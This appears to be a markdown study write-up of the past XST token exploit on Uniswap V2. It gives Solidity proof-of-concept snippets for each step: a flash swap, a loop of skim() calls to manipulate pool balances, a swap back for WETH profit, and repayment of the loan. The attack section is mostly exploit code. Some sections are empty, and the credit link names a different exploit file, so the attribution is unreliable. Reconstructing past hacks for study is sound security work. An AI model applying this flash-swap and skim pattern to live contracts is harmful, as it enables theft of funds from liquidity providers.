








# XST

## What's XST?


## Amount stolen
27.13 WETH


## Vulnerability
Skimming logic

## Analysis


# proof of concept (PoC) 

We check the balance of WETH within the XST pool on Uniswap and initiate a swap for twice that amount. This action triggers a callback, invoking our custom `uniswapV2Call` function.

```solidity
        amount = WETH.balanceOf(address(Pair2));
        Pair1.swap(amount * 2, 0, address(this), " ");
```


In our `uniswapV2Call` we proceed by getting the current reserves of the XST/WETH pair on Uniswap




```solidity
uint256 amountSellWETH = WETH.balanceOf(address(this));
(uint256 reserve0, uint256 reserve1,) = Pair2.getReserves(); 
```




### Calculate swap

To execute a swap on Uniswap, we adhere to the Uniswap formula, inserting the required parameters for swaps.
With the following parameters:




```solidity
  uint256 amountOutXST = amountSellWETH * 997 * reserve0 / (reserve1 * 1000 + amountSellWETH * 997);
```


swap ST tokens for WETH tokens in the liquidity pool of Uniswap XST

```solidity
  WETH.transfer(address(Pair2), amountSellWETH);
  Pair2.swap(amountOutXST, 0, address(this), "");
```


### Skimming

The skim function in Uniswap V2 is used to claim accumulated tokens from a liquidity pool without removing liquidity. 
It's often used to retrieve additional tokens accumulated due to various operations, such as swaps.
   

```solidity
     XST.transfer(address(Pair2), XST.balanceOf(address(this)) / 8);   //(1/8th) of the XST balance held by the contract to the Uniswap pair, adding more liquidity to the pool.
        for (int256 i = 0; i < 15; i++) {
            Pair2.skim(address(Pair2));
        }

     Pair2.skim(address(this));
```


After skimming the tokens we sell the XST tokens to the WETH liquitiy pool, which allows us to manipulate the price


```solidity
   XST.transfer(address(Pair2), XST.balanceOf(address(this)));
```



Now we repeat the first steps:

### Calculate swap



```solidity
   uint256 amountOutWETH = amountSellXST * 997 * reserve1 / (reserve0 * 1000 + amountSellXST * 997);
```


### Swap for profit

```solidity
   Pair2.swap(0, amountOutWETH, address(this), "");
```


### Repay flashloan

```solidity
   WETH.transfer(address(Pair1), (amount * 2) * 1000 / 997 + 1000);
```





### profit

Since we initiated the flash swap with 78 WETH, and at the and of the flash swap had 105 WETH, we were able to send the profit back to our wallet





**Code provided by:** [DeFiHackLabs](https://github.com/SunWeb3Sec/DeFiHackLabs/blob/main/src/test/88mph_exp.sol)


[**< Back**](https://patronasxdxd.github.io/CTFS/)
